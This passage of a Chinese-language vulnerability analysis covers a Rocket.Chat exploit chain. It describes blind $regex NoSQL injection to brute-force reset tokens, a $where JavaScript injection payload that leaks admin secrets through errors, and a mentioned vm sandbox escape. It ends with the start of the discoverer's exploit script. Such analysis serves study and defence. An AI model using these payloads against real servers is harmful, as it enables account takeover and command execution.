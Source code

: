 这里的 params 是用户传入的参数，正常来说，params.token 是一串随机字符串，但在这里可以传一个包含正则表达式的查询语句 `{'$regex':'^A'}`，例如下面这个例子意为查找一处 token 是以大写字母 A 为开头的数据。通过这个漏洞就可以逐字符的爆破修改密码所需的 token。

```
Users.findOne({ 
    'services.password.reset.token': {
        '$regex': '^A'
    } 
})
```

第二处漏洞在 app/api/server/v1/users.js，需要登陆后的用户才能访问，通过这处注入攻击者可以获得包括 admin 在内的所有用户的信息。注入点代码如下：

```
API.v1.addRoute('users.list', { authRequired: true }, {
    get() {
        // ...
        const { sort, fields, query } = this.parseJsonQuery();
        const users = Users.find(query, {/*...*/}).fetch();
        return API.v1.success({
            users,
            // ...
        });
    },
});
```

这处注入需要了解的知识点是，mongo 中的 $where 语句，根据文档，查询语句以这种形式展现 `{ $where: <string|JavaScript Code> }`，因此攻击者可以注入 JavaScript 代码，通过将搜索的结果以报错的形式输出。光说可能难以理解，通过一个例子就能很好地说明了。

攻击者可以传入这样的 query：`{"$where":"this.username==='admin' && (()=>{ throw this.secret })()"}`，就会构成下面这样的查询语句，意为查询 username 为 admin 的用户并将他的信息通过报错输出。

```
Users.find(
    {
        "$where":"this.username==='admin' && (()=>{ throw JSON.stringify(this) })()"
    }, 
    {/*...*/}
).fetch();
```

通过这个漏洞，就可以获得 admin 的修改密码的 token 和 2FA 的密钥，即可修改 admin 的密码，达到了提权的目的。Rocket.Chat 还为管理员账户提供了创建 web hooks 的功能，这个功能用到了 Node.js 的 vm 模块，而 vm 模块可以通过简单的原型链操作被逃逸，达到任意命令执行的效果。至此，我们了解到了这一个命令执行漏洞的所有细节，接下来就通过分析漏洞发现者提供的 exp 来讲一下漏洞利用的过程。

 **0x04 漏洞利用** 

这部分内容基于漏洞发现者给出的 exp，并结合我在复现过程中遇到的问题提出改进意见。

```
# Getting Low Priv user
print(f"[+] Resetting {lowprivmail} password")
## Sending Reset Mail
forgotpassword(lowprivmail,target)

## Getting reset token through blind nosql injection
token = resettoken(target)

## Changing Password
changingpassword(target,token)
```
